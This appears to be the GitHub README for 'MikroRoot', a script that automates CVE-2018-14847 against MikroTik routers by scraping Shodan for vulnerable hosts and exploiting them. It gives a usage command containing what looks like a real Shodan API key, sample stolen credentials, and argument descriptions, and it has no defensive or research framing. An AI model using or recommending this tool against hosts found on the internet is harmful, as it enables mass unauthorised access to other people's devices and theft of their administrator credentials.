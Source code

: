 python3 MikroRoot.py -k ZxxaoRySfytHXHbUjOIigTzggBvDJpaB  -p 50



# MikroRoot
Automated version of CVE-2018-14847. It will scrape shodan for vulnerable host and then try to exploit them.

# How to use      
Note that this script will NOT run with Python2.x. Use only Python 3+       

MikroRoot:        
`python3 MikroRoot.py -k SHODAN_KEY -p page count`           
`User: ncss`        
`Pass: ncss!@#2018`     
`IP: 1.2.3.4`         

# Arguments       
**-p** page count to scrape       
**-k** Shodan key       
        
# Author of exploit    
**https://github.com/BasuCert/WinboxPoC**   

